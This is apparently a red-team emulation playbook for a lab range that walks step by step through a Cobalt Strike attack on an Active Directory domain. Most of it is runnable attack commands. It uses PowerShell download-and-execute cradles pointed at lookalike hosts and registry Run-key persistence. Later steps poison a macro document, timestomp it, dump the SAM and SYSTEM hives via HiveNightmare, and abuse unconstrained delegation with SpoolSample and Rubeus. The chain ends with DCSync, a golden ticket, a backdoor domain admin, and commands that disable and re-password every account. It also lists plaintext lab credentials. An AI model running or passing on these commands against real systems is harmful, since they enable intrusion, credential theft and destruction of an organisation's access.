

# Plan

# MECT Scenario Overview: Cobalt Strike
---
## Phase 1: Initial Access
- **Step 0: Pre-Emulation Plan Configuration**
- **Step 1: Initial Access via Compromised VPN User**

## Phase 2: Lateral Movement into the Domain
- **Step 2: Lateral Movement into the Domain via Macro Enabled Document in File Share**
- **Step 3: Local Privesc on S6-1 via 'HiveNightmare'**
- **Step 4: Local Persistence on Compromised Domain via 'Invisreg'**

## Phase 3: Privilege Escalation within Domain
- **Step 5: Lateral Movement to SHRPT via WMIC**
- **Step 6: Lateral Movement via Unconstrained Delegation w/ 'SpoolSample.exe'**
- **Step 7: Domain Credential Dumping via DCsync Attack**
- **Step 8: Domain Privilege Escalation via Golden Ticket Attack**

## Phase 4: Impact
- **Step 9: Restrict Access to the Domain**

---

# Initial Access

Log into the PAO/MDA-VPN-User machine in PCTE

>[!info]- PAO Credentials
>Username: gerald.mcneil
>Password: n+6$nJ@F#2L6

>[!info]- MDA Credentials
>Username: cruz.harrison
>Password: j+U8H@W@L5$a

### XXX-VPN-User
- [ ] [[Plan#Start initial beacon|Start Initial Beacon]]
- [ ] [[Plan#Initial Persistence with invisreg|Initial Persistence]]
- [ ] [[Plan#Connect VPN|Connect VPN]]
- [ ] [[Plan#Domain Enumeration|Enumeration]]
- [ ] [[Plan#Macro Poisoning|Macro Poisoning]]

### XXX-s6-1
- [ ] [[Plan#Persistence S6|Persistence]]
- [ ] [[Plan#Privilege Escalation through Hive Nightmare|Privesc through HiveNightmare]]
- [ ] [[Plan#Spawn as the Help Desk User |Spawn Beacon]]

### XXX-SHRPT
- [ ] [[Plan#Lateral Move (wmic)| WMIC]]
- [ ] [[Plan#Persistence SHRPT|Persistence]]
- [ ] [[Plan#Exploiting Unconstrained Delegation|Unconstrained Delegation]]
- [ ] [[Plan#Golden Ticket|Golden Ticket]]

### Domain
- [ ] [[Plan#Domain Persistence|Domain Persistence]]
- [ ] [[Plan#Effect - Disable the Domain|Disable the Domain]]

--------

<h1><center> VPN-USER </center></h1>

## Start initial beacon

Go to powershell and paste the scripted web delivery payload that you already setup.

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://www.google.com.ve:80/search&q=nightmares'))"
```
>[!info] /search&q=nightmares payload setup
>[[Vulnerability and Range Setup#URI for initial Access (google.com.ve/search&q=nightmares)]]


>[!warning]- Troubleshooting
> If this isn't found, double check that the attack is still hosted.
> In CS, to `Site Management` --> `Manage`
> This should pop up the `Sites` tab.
> ![[attachments/Plan_image_1_20231011013207.png]]
> Your payload should be there, if not [[Vulnerability and Range Setup#Scripted web delivery|go here]]
> If it is setup, then check the routes and dns by using `ping www.google.com.ve` from PAO/MDA-VPN-User

- On our Kali Box we should receive a callback.
![[attachments/Plan_image_2_20231011013207.png]]
- Double-Click the beacon to interact

- use `ctrl + r` or the cna in order to rename it to `initial access`. I recommend changing the color as well. I chose green.

>[!info]- Organizing beacons
>Now is a good time to start organizing your beacons. This habit not only helps you to know what is going on in range, but it will help other operators if they need to take over.
>>[!info]- Add note
>>You can add notes with `note <note>` 
>>![[attachments/Plan_image_3_20231011013207.png]]
>
>>[!info]- Change color
>>You can change the color by right-clicking the beacon `Session` --> `Color`
>>![[attachments/Plan_image_4_20231011013207.png]]
>>This will add a colored square in the tab that spawns with that beacon.
>>
>
>>[!info]- Rename
>>You can rename any tab with `ctrl +r`, but this only survives until you close the tab
>>If you [[Vulnerability and Range Setup#Setup CS Client|loaded the optional cna script]], you can use `cbm <name>` to rename the beacon. 


## Initial Persistence with invisreg

### Upload tool
- get all tools onto CS client machine. 
```
scp kali@30.0.0.11:/home/kali/24_ME-01.zip ~/ 
```

The following tools have been renamed for the purpose of this emulation plan

| tool | new name | 
| - | - |
| invisreg | PCHealthCheck|
| Rubeus | Healthmonitor | 
| Spoolsample | HPUpdate |
 


We need to have some persistence on the initial box. We will be using invisreg.exe to do this. 
Low Lever Persistence on XXX-vpn-user

- cd to `c:\users\<username>`
- upload invisreg by typing `upload` and choosing the PCHealthcheck.exe file.

![[attachments/Plan_image_6_20231011013207.png]]

- NEW !!!!!



```shell
shell PCHealthCheck.exe --key HKCU:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\backup --type REG_SZ --create --value "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://www.google.com.co:80/index.php'))\""
```

>[!note] 
>Make sure that you are writing to HKCU, not HKLM!
>Also make sure that you escape the double quote before IEX and the second-to-last double quote with a `\`

>[!danger] Do not restart the machine!

## Connect VPN
Now it's time to connect the host to the VPN. This is a white card event that is being used to simulate the user logging in to the target domain, which is what begins the attack.
- Right-click the OpenVPN-gui and click `connect`. Then `Ok`.
>[!warning]- Troubleshooting
>[[Vulnerability and Range Setup#Connecting XXX-VPN-USER to domain VPN.|See this section for troubleshooting]]

## Enumeration

### Import Powerview

We will need to conduct recon on the domain. Powerview is a very handy way to do it. 

First we'll need to change the execution policy to import powershell.
`powershell set-executionpolicy -scope currentuser bypass`

Next we'll import the module:

```
powershell-import
```

Navigate to the ~/tools/powershell/PowerSploit/Recon folder and select PowerView.ps1.

### User/Group Enumeration

```
powershell get-domainuser >> users.txt    #return all domain users if using powerview
download users.txt
rm users.txt

shell net1.exe groups /domain
shell net1.exe group "Domain Admins" /domain

powershell get-netuser -spn | select serviceprincipalname #get kerberoastable users
powershell invoke-kerberoast # to kerberoast users (should be uncrackable)
powershell get-netuser -preauthnotrequired # ASREPRoastable users

powershell get-domaingroup | select name,member | ft -autosize -wrap
shell net1.exe user jeri.wu /domain
```

>[!info]- Finding the Help Desk group and finding that jeri.wu is in S6.
>It is important to find that jeri.wu is a member of the help desk group, which should have wmic rights within the domain. The next step is to find a way to get to jeri.wu and find a place to abuse his wmic access to elevate to DA. 

>[!warning] dominic toretto shows up as an AS-REP roastable user on the test range. If this is the case on the real range, then ignore it, change his password to something uncrackable (and do the attack), or require preauthentication for him at the DC.
>

### Domain enumeration
```powershell
powershell get-netcomputer -unconstrained | select name
```

>[!info] This shows how the attacker found out about unconstrained delegation on sharepoint.

### Looking for File Shares:
Our attacker needs to find a way further into the domain
```powershell
powershell find-domainshare -checkaccess
shell dir \\xxx-dc1\fileshare
shell dir \\xxx-dc1\fileshare\s6
```

>[!info] This shows a fileshare that is being used by the entire domain. The best target is the s6 because they have a member of the help desk group.


## Macro Poisoning

### Weaponization
Next we are going to poison one of the word documents that we found on the fileshare. Download one of the documents that ends in a .doc, because it is easier to place macros inside of.

`download \\xxx-dc1\fileshare\s6\<collaborationWordDoc>`

>[!info] time stamp
>take note of the  time stamp so that we can time stomp it later. Find a file that was created near the same time.
>![[attachments/Plan_image_7_20231011013207.png]]

![[attachments/Plan_image_8_20231011013207.png]]

next rename your word document to the same name.

![[attachments/Plan_image_9_20231011013207.png]]

### Upload

Next, upload it back to the share
```
cd \\xxx-dc1\fileshare\s6
upload #select the word document
```

### Time stomp!
You will notice that this document's timestamp is vastly different than the others in the folder.
We will timestomp to help hide it.

![[attachments/Plan_image_10_20231011013207.png]]


```
timestomp <malicious word document we just uploaded> <file with similar timestamp>
```

![[attachments/Plan_image_11_20231011013207.png]]

----------

<h1><center> S6-1</center></h1>

Next, we will simulate the s6-1 user opening the word macro. Login to xxx-s6-1 with the following credentials:

>[!info] Credentials
>
>| host | username | password |
>| - | - | - |
>| pao-s6-2 | celeste.garrison |`bP+Gn8Yo8@5#` |
>| mda-s6-2.mda.mil | houston.clements  | `AM$M+u2h@o4W ` |

- Navigate to the document in file explorer and open it in word. Should be in `x:\s6`
- Enable the macros by selecting the `options` banner at the top of the document 

![[attachments/Plan_image_12_20231011013207.png]]

- Click the radial for `Enable this content` and select `OK`

![[attachments/Plan_image_13_20231011013207.png]]

A beacon should come back!

use `ctrl + r` to rename it to S6. It is also a good idea to change it to a new color. I chose yellow.

## Persistence S6

Do the same persistence as you did on the xxx-vpn-user box. [[Plan#Initial Persistence with invisreg|Click Here]]

## Privilege Escalation through Hive Nightmare


### Enumeration
Enumerate with Sharpup.exe, get-service and systeminfo. There's probably a better way to enumerate for Hive Nightmare, but this will be enough for now.

```
execute-assembly /home/kali/24_ME_1/sharpup.exe audit
powershell get-service | select name
shell sc qc vss
shell systeminfo
```

>[!info] Discovery
>You should notice that the build is 19041, which is windows verion 2004 ( 20H1)
>This build is likely vulnerable to HiveNightmare

### Manual HiveNightmare

Instead of uploading and executing a binary in order to essentially copy three files, we are going to use the windows API to copy the files and then download them. First, let's see if we can read the backed up SAM hive.

```powershell
cd c:\users\houston.clements\appdata\local\temp

shell powershell "[System.IO.File]::Copy((\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\sam\"), (\"sam1.bak\"))"

ls

```

>[!info] Discovery
>The fact that we can copy this hive means that there is at least one volume shadow copy that we can read


```

shell powershell "[System.IO.File]::Copy((\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\sam\"), (\"sam2.bak\"))"

ls

```

>[!info] Discover
>This shows us that there isn't a second one

```

shell powershell "[System.IO.File]::Copy((\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\system\"), (\"system1.bak\"))"

shell powershell "[System.IO.File]::Copy((\"\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\security\"), (\"security1.bak\"))"

ls

```

Next, download the files by using the download command and copying the name of each file.

```
download sam1.bak
download system1.bak
download security1.bak
```

In order to get them back to your machine, you need to sync.

- go to view -> Downloads
- Select the three files
- select `Sync Files`
- Choose folder
- Click `Open`
 
![[attachments/Plan_image_14_20231011013207.gif]]


## Cracking the passwords

This is entirely notional. You can do it if it makes you feel better, but the end result is that the bad guys crack jeri.wu's password.


```
impacket-secretsdump -sam sam1.bak -security security1.bak -system system1.bak local
```

![[attachments/Plan_image_15_20231011013207.png]]

Several attacks become available with the NTLM hash, but they usually require impacket tools or another red team tool. Instead, we are going to try to get the password from the hash in order to open up even more possibilities for account abuse.

- copy everything from the help desk user's msscache starting with `$DCC2$` into a file called hash.txt
- Put his password into a wordlist called `wordlist`
- `john hash.txt --wordlist=./wordlist`


![[attachments/Plan_image_16_20231011013207.png]]

>[!info] Crazy Password!
>For now, the user's passwords are randomly generated. This one would take 8 million years to crack. However, most people have passwords that could be cracked using a combination of wordlists, rules and transformation. It may seem like cheating to put his password in the wordlist, but pretend that it was crackable. 

>[!tip]- Optional privesc to Help Desk user
>If the above seems too cheap, use impacket-wmiexec and pass the local administrator's hash in order to lay persistence int he HKLM hive. If jeri wu **ever** logs into the machine, you will get a beacon back as him. You can simply log into him to receive the beacon. 
>
>![[attachments/Plan_image_17_20231011013207.png]]

## Spawn as the Help Desk User

Now that we have credentials for the other user, we will spawn a beacon as them.

- right click the yellow S6 beacon and click `Access` -> `Spawn as`
- fill in the appropriate information
- Launch
 
![[attachments/Plan_image_18_20231011013207.png]]


I renamed this `HelDesk` and turned it yellow.

--------

<h1><center> SHRPT</center></h1>

## Lateral Move (wmic) 

Make sure that you are interacting with the S6 beacon and then run this command:

```shell
shell wmic /node:"mda-shrpt.mda.mil" process call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://video.memezilla.com.cn/home'))\""
```
>[!info] /Home payload setup
>[[Vulnerability and Range Setup#URI for wmic]]

![[attachments/Plan_image_19_20231011013207.png]]

A beacon should come back as the elevated token of the S6 user. You will notice that the computer logo is red and that the name has an asterisk. This is a local administrator account with an elevated token. This means that they have control of the system, but they can't do anything on the domain. Fortunately for us, we only need system access because the machine account has unconstrained delegation.

I changed the color to red and renamed it "SHRPT".
## Persistence SHRPT

First, lay your persistence just as you did previously. This time put it in HKLM instead of HKCU.
>[!info] Click below for how to perform persistence with invisreg
[[Plan#Initial Persistence with invisreg|Persistence Guide]]

The updated command:
```
shell PCHealthCheck.exe --key HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\backup --type REG_SZ --create --value "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://www.google.com.co:80/index.php'))\""
```

## Exploiting Unconstrained Delegation

Next you need to prepare two commands in two different beacons. First you will need to run rubeus in memory on SHRPT to monitor for new tickets. Then you will need to quickly use spoolsample from a domain context (in this case the S6 beacon). Prepare the commands so that you can send them both very quickly.

on XXX-SHRPT


>[!warning] Tickets Expire!
>Do this right before the DCsync or any other action requiring the ticket, since they expire.

```
execute-assembly /home/kali/24_ME_01/HealthMonitor.exe monitor /nowrap /interval:2 /runfor:60 /targetuser:mda-dc2
```

on XXX-S6-1

```
execute-assembly /home/kali/24_ME_01/HPUpdate.exe mda-dc2 mda-shrpt
```


![[attachments/Plan_image_20_20231011013207.png]]
<center> Success! </center>

You should get the DC's base64 encoded ticket in an easy to copy format.

You should then use ptt to get the ticket on the S6 computer, since the SHRPT server doesn't have domain rights.

```
execute-assembly /home/kali/24_ME_01/HealthMonitor.exe ptt /ticket:<the base64 encoded ticket from earlier>
```

>[!warning]- Troubleshooting
>Make sure to trim any white space off the end. The example hash is from the MDA side, and should be different for the PAO side.


## Golden Ticket
### dcsync

Next you will use DC's ticking in order to pull the krbtgt hash from the DC with dcsync.

```
dcsync mda.mil mda\krbtgt
```

![[attachments/Plan_image_21_20231011013207.png]]

### Craft Ticket

Next we will utilize Cobalt Strike's Golden Ticket function. 

**Creating a Golden Ticket requires 4 things:**
- User Name
- Domain
- Domain SID
- KRBTGT Hash

We have all four of these things from running dcsync. For the Domain sid, remove the last field (the RID).

- Right click the HelpDesk beacon
- `Access` -> `Golden Ticket`

![[attachments/Plan_image_22_20231011013207.png]]

Fill in the information. Clicking the `...` Should allow you to pick the saved krbtgt hash.

![[attachments/Plan_image_23_20231011013207.png]]

>[!info] User Name
>You can make any username that you want.


# Domain Persistence

Create an account as Domain Administrator. I used nathan.roberts

```
shell net user <username> <password> /add /domain
shell net group "Domain Admins" <username> /add /domain
```
# Effect - Disable the Domain

Next, we will go through and disable all the other accounts.

### Import Powerview again

use powershell import and pick /home/kali/tools/powershell/Powersploit/Recon/PowerView.ps1
```
powershell-import
```


Next disable all accounts
```powershell
powershell get-domainuser |?{$_.samaccountname -notlike "krbtgt" -and $_.samaccountname -notlike "nathan.roberts"} | foreach { net user $_.samaccountname /domain /active:no }
```

Might as well change their passwords.

```powershell
powershell get-domainuser |?{$_.samaccountname -notlike "krbtgt" -and $_.samaccountname -notlike "nathan.roberts"} | foreach { net user $_.samaccountname EasyPassword! /domain }
```


Do it twice to make sure it takes!

```
powershell get-domainuser |?{$_.samaccountname -notlike "krbtgt" -and $_.samaccountname -notlike "nathan.roberts"} | foreach { net user $_.samaccountname H4rdP4ssword! /domain }
```

